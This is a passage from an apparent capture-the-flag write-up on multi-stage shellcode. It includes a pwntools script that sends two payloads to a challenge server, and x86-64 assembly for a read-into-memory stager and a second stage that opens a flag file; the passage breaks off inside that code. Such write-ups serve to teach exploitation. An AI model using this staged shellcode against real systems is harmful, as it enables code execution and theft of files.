The second shellcode is the same shellcode used in challenge 1.

```python
shellcode1 = asm(f""" # stage 1 shellcode goes here """)
shellcode2 = asm(f""" # stage 2 shellcode goes here """)

p = remote("0.cloud.chals.io", 34832)
print_clean(p.recvuntil(b"Reading 0x18 bytes from stdin.\n"))
p.sendline(shellcode1)
pause(1)
p.send(shellcode2)

print_clean(p.readrepeat())
```

In order to successfully execute a multi stage shellcode we also need to modify the boilerplate.py file since the two scripts must be in different payloads.
As shown above, we create another variable in which we type our stage 1 shellcode and we send it through before the actual payload containing the stage 2 shellcode; between the two payloads we want to wait 1 second for the stage 1 shellcode to execute so we add "pause(1)".

```python
from pwn import *

context.arch = "amd64"
#context.log_level = debug

def print_clean(data):
    data = data.split(b"\n")
    for i in data:
        print(i.decode("latin-1"))

# shellcode goes here
setup = asm(f"""

.intel_syntax noprefix
.global _start

_start:
main:
push 0
push 0
pop rdi
lea rsi, [rip+10]
mov rdx, 250
pop rax
syscall

""")

shellcode = asm(f"""

.global _start
.intel_syntax noprefix

_start:

open:
lea rdi, [rip+flag]
xor rsi, rsi
xor rdx, rdx
mov rax, 2
syscall

sendfile:
```